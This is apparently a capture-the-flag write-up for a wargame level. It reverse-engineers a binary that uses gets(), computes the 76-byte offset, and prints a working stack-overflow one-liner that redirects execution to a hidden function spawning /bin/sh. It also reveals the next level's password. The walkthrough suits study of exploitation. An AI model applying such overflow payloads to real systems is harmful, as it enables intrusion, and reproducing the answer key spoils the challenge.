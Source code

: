 ## level1
The binary for level1 takes in some input via stdin, and does nothing according to strace.

![image](https://hackmd.io/_uploads/rJwxIKjET.png)

This is also confirmed when the input is passed in and ran via GDB `run params < /tmp/test`.

![image](https://hackmd.io/_uploads/Bk9WdFsVp.png)

Which gives us a simple source 
```clike=
#include <stdio.h>
    
int main()
{
    char buff[0x50]; // ?
    
    // 0x8048490
    gets(buff);
}
```

There are still some unknowns, I still cant confirm the actual size of the buffer, or why does the ESP masks to 0xfffffff0 at the start (as seen in the above screenshot). Luckily, I found a way to disassemble the code without launching gdb everytime,  by using `objdump -M intel -d filename`.

![image](https://hackmd.io/_uploads/BJAH_a3ET.png)

Here, I can see an overview of the program which also includes a run function that executes fwrite and system *sus*, and a dummy frame.

According to this [blog](https://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html), the `frame_dummy` is used for
> exception handling and reconstructing stack frames to aid debugging and stack forensics

The 0xfffffff0 masking for the ESP is used for alignment, as suggested in this [SO](https://stackoverflow.com/questions/37967710/why-is-esp-masked-with-0xfffffff0) for performance and compatibility purposes ([SSE compatibility](https://superuser.com/questions/137172/sse2-sse4-2-compatibility)).

And using the information above, we can determine the size of the buffer according to how the stack frame is formed.

![image](https://hackmd.io/_uploads/S10Us6hEp.png)

The **frame pointer** (ebp) is 4 bytes as well as the **return address**, and the **stack alignment** is 8 bytes. Hence the size of the buffer (assuming its the only local variable) will be the address of esp - ebp, and the length needed to overwrite the return address (eip) for a buffer overflow attack will be the size of the buffer + frame pointer + stack alignment.


lets look at the assmebly again ;
```
 8048486:       83 ec 50                sub    esp,0x50
 8048489:       8d 44 24 10             lea    eax,[esp+0x10]
 804848d:       89 04 24                mov    DWORD PTR [esp],eax
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 ```


from the snippet above, we can see that the stack allocated 0x50 bytes using the sub opcpde, however its not the case according to this [article](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow3.html) where the system actually allocates to the nearest power of 2 for alignment. But at least we know our buffer size is less than 0x50 now.

In the next line, we can see that `lea    eax,[esp+0x10]` is loading the current esi address - 0x10 (stack grows downwards) to eax, to prepare the `gets` call. And according to gets manual, the argument accepts will be a buffer. Hence the size of the buffer can be deduced as `0x50 - 0x10` = 64 in decimal.

To overwrite the eip, we need to have at least 64 + 8 + 4 + 1 = 77 bytes of data.

` python -c "print('B' * 77)" > /tmp/test` to get the test input to overwrite eip.

![image](https://hackmd.io/_uploads/r1jnNAh46.png)

As we can see, the last two bytes of the saved eip is now 42. But what do we replace the saved EIP with? Remeber the run function earlier? The address is `0x8048444`. We can change our input file to `python -c "print('B' * 76 + '\x44\x84\x04\x08')" > /tmp/test` to test. (inverted address cuz little endian)

We're kinda there now, looks like we need to look at the `run` function to see what it does

![image](https://hackmd.io/_uploads/H17_UC24T.png)


![image](https://hackmd.io/_uploads/rkDtD0n4T.png)
For the arguments to fwrite, they are passing in `fwrite("Good... Wait what?", 0x1, 0x13, stdout)`.
for the args to system, they are `system("/bin/sh")`.

But why I dont get a shell? Prehaps its not execve? 
Upon looking at the man page, I see that
> system() executes a command specified in command by calling /bin/sh -c command

With that said, the source of the bianry should look like
```clike=
#include <stdio.h>
#include <stdlib.h>

# define MSG "Good... Wait what?"
# define SHELL "/bin/sh"
    
//0x8048444 
void run()
{
    // 0x804846d
    fwrite(MSG , 0x1, 0x13, stdout);
    
    // 0x8048479
    system(SHELL);
}
    
int main()
{
    // 0x8048486
    char buff[64];
    
    // 0x8048490
    gets(buff);
}
```

and according to the [SO](https://stackoverflow.com/questions/1697440/difference-between-system-and-exec-in-linux), system does not replace the current process. Which means I need to find a way to keep stdin open so that system can read input.

I tried this command
`(python -c "print('B' * 76 + '\x44\x84\x04\x08')" ; cat )| ./level1 ` and it worked.

![image](https://hackmd.io/_uploads/ByfgiCnNT.png)

The password for the next level is `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`